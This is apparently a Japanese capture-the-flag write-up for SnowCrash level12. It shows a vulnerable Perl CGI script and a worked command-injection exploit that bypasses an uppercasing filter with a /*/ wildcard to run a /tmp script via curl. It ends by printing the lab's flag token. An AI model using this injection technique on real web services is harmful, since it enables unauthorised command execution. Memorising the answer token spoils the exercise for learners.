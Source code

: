 ## perlスクリプトの内容を確認
```sh
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//; # 空白以降の文字列削除
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
```

## エクスプロイト
`curl 'http://localhost:4646/?x=` にリクエストを送信し`@output = egrep "^$xx" /tmp/xd 2>&1;`で任意のコマンドをインジェクションできる。
ただし、ファイル作成できるディレクトリが`/tmp/`のみで`$xx =~ tr/a-z/A-Z/;` でアッパーケースになり、`/tmp/`のファイルをそのまま読み込ませることはできない。
この問題を回避するために、ワイルドカード`/*/`を使う。

### インジェクション用のスクリプト作成
```sh
level12@SnowCrash:~$ echo '#!/bin/bash' > /tmp/A
level12@SnowCrash:~$ echo 'getflag > /tmp/a' >> /tmp/A
level12@SnowCrash:~$ chmod +x /tmp/A
```

### 実行
```sh
level12@SnowCrash:~$ curl 'http://localhost:4646/?x=$(/*/A)'
..level12@SnowCrash:~$cat /tmp/a
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```